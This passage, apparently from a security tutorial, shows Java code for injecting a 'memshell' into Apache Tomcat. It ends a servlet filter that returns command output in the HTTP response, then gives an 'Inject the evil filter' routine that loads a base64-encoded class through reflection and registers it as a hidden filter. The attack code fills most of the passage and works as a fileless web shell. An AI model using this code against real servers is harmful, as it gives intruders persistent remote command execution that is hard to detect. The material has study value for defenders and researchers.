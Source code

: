 ```java
                    stringBuilder.append(scanner.nextLine());  
                }  
                String result = stringBuilder.toString();  
                servletResponse.getWriter().println(result);  
            } catch (Exception e) {  
                servletResponse.getWriter().println("Exception:" + e.getClass().getName() + e.getMessage());  
            }  
        } else {  
            filterChain.doFilter(servletRequest, servletResponse);  
        }  
  
    }  
  
    @Override  
    public void destroy() {  
  
    }  
}
```

Inject the evil filter. Note that, we should compile the byte code of the `MemshellFilter` class and encode by base64. And define the class dynamically to the current class loader.
```java
public static void injectMemshell(StandardContext standardContext, String filterName) {
	try {
		HashMap<String, ApplicationFilterConfig> map = (HashMap<String, ApplicationFilterConfig>) getFieldValue(standardContext, "filterConfigs");
		if (map == null) {
			return;
		}
		if (map.get(filterName) == null) {
			//tomcat9
			Class filterDefClass = null;
			try {
				filterDefClass = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
			} catch (ClassNotFoundException e) {
				filterDefClass = Class.forName("org.apache.catalina.deploy.FilterDef");
			}

			ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
			Class clazz = null;
			try {
				clazz = Class.forName("filter.MemshellFilter");
			} catch (ClassNotFoundException e) {
				String s = "yv66vgAAADQAzgoAEQBnCABoCQAuAGkIAGoJAC4AawgAbAsAbQB...";
				byte[] bytes = Base64.getDecoder().decode(s);
				Method method = classLoader.getClass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
				method.setAccessible(true);
				clazz = (Class) method.invoke(classLoader, bytes, 0, bytes.length);
			}

			Object filter = clazz.newInstance();
			Object filterDef = filterDefClass.newInstance();
			filterDef.getClass().getDeclaredMethod("setFilterName", String.class).invoke(filterDef, filterName);
			filterDef.getClass().getDeclaredMethod("setFilter", Filter.class).invoke(filterDef, filter);
			filterDef.getClass().getDeclaredMethod("setFilterClass", String.class).invoke(filterDef, filter.getClass().getName());
			standardContext.addFilterDef((FilterDef) filterDef);

			FilterMap filterMap = new FilterMap();
```